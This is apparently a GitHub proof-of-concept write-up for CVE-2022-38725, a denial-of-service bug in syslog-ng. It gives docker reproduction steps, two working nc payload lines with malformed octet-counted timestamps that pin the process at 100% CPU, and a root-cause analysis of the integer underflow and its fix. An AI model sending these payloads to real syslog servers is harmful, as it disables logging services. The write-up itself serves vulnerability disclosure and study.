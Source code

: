 # CVE-2022-38725

CVE-2022-38725 is an unauthenticated Denial of Service vulnerability in syslog-ng versions prior to 3.38.1.

https://github.com/syslog-ng/syslog-ng/security/advisories/GHSA-7932-4fc6-pvmc

https://nvd.nist.gov/vuln/detail/CVE-2022-38725

## Steps to Reproduce

1. Pull a vulnerable docker image:

```
docker pull linuxserver/syslog-ng:3.36.1
```

2. Run a vulnerable syslog-ng container. Note other syslog configurations can be applied but the default settings are vulnerable:

```
docker run -p 514:5514/udp -p 601:6601/tcp --rm -it linuxserver/syslog-ng:3.36.1
```

3. Send the payload to the server:

```
echo '27 <182>2022-08-17T05:02:28.217 mymachine su: 'su root' failed for lonvick on /dev/pts/8' | nc 127.0.0.1 601 -w 1
```

4. On the vulnerable host notice that CPU has spiked to 100% for the syslog-ng process

![syslog-ng-CVE-2022-38725](https://github.com/user-attachments/assets/8bd57dfb-a5a3-4a24-acc5-36fb7cca57a6)

## Analysis

The [3.38.1 release](https://github.com/syslog-ng/syslog-ng/releases/tag/syslog-ng-3.38.1) links https://github.com/syslog-ng/syslog-ng/pull/4110, which includes unit tests and several validations to prevent similar variants of this bug.

The [original issue](https://github.com/syslog-ng/syslog-ng/issues/4277) includes helpful debugging that identified the root cause.

The GitHub advisory claims that the vulnerability occurs from improper parsing of RFC3164, which is the traditional BSD syslog format. The advisory explains that an integer underflow can occur and that no impact outside of availability is believed possible.

The pull request to fix the vulnerability adds unit test to both the RFC3164 and RFC5424 (newer syslog format) timestamp parsers.

Note that the RFC3164 spec defines the timestamp to match the `Oct 11 22:14:15` format, where RFC5424 uses the ISO format, `1985-04-12T19:20:50.52-04:00`. The unit cases indicate that the syslog-ng code attempts to parse either format. The GitHub advisory claims that the vulnerability occurs when parsing RFC3164 messages, which isn't fully accurate. RFC5424 messages are responsible for the variable length timestamp. Since the syslog protocol doesn't explicitly state a message type, the syslog-ng project attempted to parse both timestamps. This allows for an RFC3164 message with a malformed timestamp to trigger the vulnerability as well:

```
echo '21 <182>Oct 11 22:14:15.123 mymachine su: 'su root' failed for lonvick on /dev/pts/8' | nc 127.0.0.1 601 -w 1
```

The [syslog source](https://syslog-ng.github.io/dev-guide/chapter_4/section_2/macos-testing-status/afsocket/syslog-source-destination-driver) uses octet counting as described by RFC6587 which prefixes the syslog message with the number of bytes sent in TCP messages.

The vulnerability can be triggered by sending a message size that doesn't fully account for the ISO timestamp. The syslog-ng code iterates over the timestamp and subtracts the number of digits from the specified length. This mismatch allows for an underflow condition where the read length ends up becoming negative while there is still data to read from the message.

The process flows to a while loop where the process is stuck trying to read characters from message. This issue results in 100% CPU usage for the given process. An attacker is able to send multiple payloads to consume additional system resources.

Syslog does not use octet counting over UDP so the above payload has no unusual effect. Restarting the syslog-ng container/process does reset CPU usage.

## Additional

One of the syslog-ng maintainers indicated that it may be possible to trigger this through a [TCP RST](https://github.com/syslog-ng/syslog-ng/issues/4277#issuecomment-1377186809) in the middle of a message. It was noted that the message would need to send a partial timestamp prior to the TCP RST. This may allow for octet counting to be bypassed.
